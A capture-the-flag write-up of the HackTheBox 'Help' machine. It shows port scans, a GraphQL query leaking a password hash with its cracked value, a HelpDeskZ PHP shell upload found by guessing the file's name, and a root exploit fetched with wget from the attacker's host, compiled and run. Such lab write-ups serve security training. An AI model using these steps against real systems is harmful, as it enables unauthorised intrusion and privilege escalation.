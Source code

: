 ```yaml
---
title: "HackTheBox: Help Write Up!"
date: 2019-04-02
tags: [Hackthebox, ctf, writeup, Help]
excerpt: "HackTheBox: Help Write Up!"
header:
  image: "assets/images/hackthebox-images/carrier-hackthebox-header.png"

---
```


# Enumeration:

## Nmap:

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 --max-retries 0 -o help-max.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:42 EST
Warning: 10.10.10.121 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.121
Host is up (0.21s latency).
Not shown: 38798 filtered ports, 26735 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 -T4 -Pn -o help-all.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:43 EST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.40% done; ETC: 14:54 (0:10:52 remaining)
Warning: 10.10.10.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.121
Host is up (0.22s latency).
Not shown: 65525 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
3000/tcp  open     ppp
8095/tcp  filtered unknown
15523/tcp filtered unknown
17954/tcp filtered unknown
17965/tcp filtered unknown
43723/tcp filtered unknown
60785/tcp filtered unknown
62421/tcp filtered unknown
```

## Fetching credentials from graphql Port 3000:

Index page:

```console
root@HassanKhan:~# curl "http://10.10.10.121:3000/" && echo -e "\n"
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran dirsearch and was able to find the endpoing query. After looking at the syntax of graphql that how it works, I was finally able to query the right syntax and was able to fetch credentials from that.

```console
root@HassanKhan:~/oscp/hackthebox/swagshop# curl -s "http://10.10.10.121:3000/graphql?query=query%20%7B%20%0A%20%20user%7Busername:password%7D%0A%7D&variables=%7B%7D" | jq
{
  "data": {
    "user": {
      "username": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```
Decrypt the md5 hash:

5d3c93182bb20f07b994a7f617e99cff : godhelpmeplz

Additionally, I have used extension that helped me to query the right syntax of graphql. That extension is “Altair Graphql Client”.

## Port 80:

Nikto scan:

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.121
+ Target Port: 80
+ GET Server leaks inodes via ETags, header found with file /, fields: 0x2c37 0x57ff4a041d89c
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: GET /admin/: Directory indexing found.
+ OSVDB-3092: GET /admin/: This might be interesting...
+ GET Cookie PHPSESSID created without the httponly flag
+ GET Cookie lang created without the httponly flag
+ OSVDB-3092: GET /support/: This might be interesting...
+ OSVDB-3233: GET /icons/README: Apache default file found.

Nothing interesting expect the /admin/ directories. Running dirsearch on port 80 brought /support/
 directory in front of me which was helpdeskz.

 Looking if there's any exploit available for the helpdeskz.

## Exploitation:

 So we found 2 exploits so far. great! As, helpdeskz is open-source, we can check that how does file upload work.
 @ https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/view_tickets_controller.php

 To made the exploit work, I had to do some modifications in the exploit that were:
 1- adjusting the time that is
 currentTime = int(time.time() + 7200) and
 2- changing the loop
 for x in range(0, 500): // 500 all most 8 mins

 You have to do modifications to the exploit code according to the difference between your time and the server response time. anyways, this could be done manually as well. Manual steps will be:

1- Uploaded php file splint3r7.php
2- Extracted the data header from response
3- converted the date header into seconds timestamp
@ https://www.epochconverter.com/
4- converted md5(filename.phptimestamp)
5- Found the shell on server with directory:
@ 10.10.10.121/support/uploads/tickets/md5string.php

## Privilege Escalation:

```console
$ uname -a
linux 4.4.0-116-generic
```

Exploit:
@ https://www.exploit-db.com/exploits/44298

```console
help@help:/tmp$ wget 10.10.14.49:1330/exploit1337.c
help@help:/tmp$ gcc exploit1337.c -o exploit1337h
gcc exploit1337.c -o exploit1337h
help@help:/tmp$ ./exploit1337h
./exploit1337h
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
cd /root/
ls -la
cat root.txt
b7fe6082dcdf0c1b1e02ab0d9daddb98
```

And we just owned the root ;)
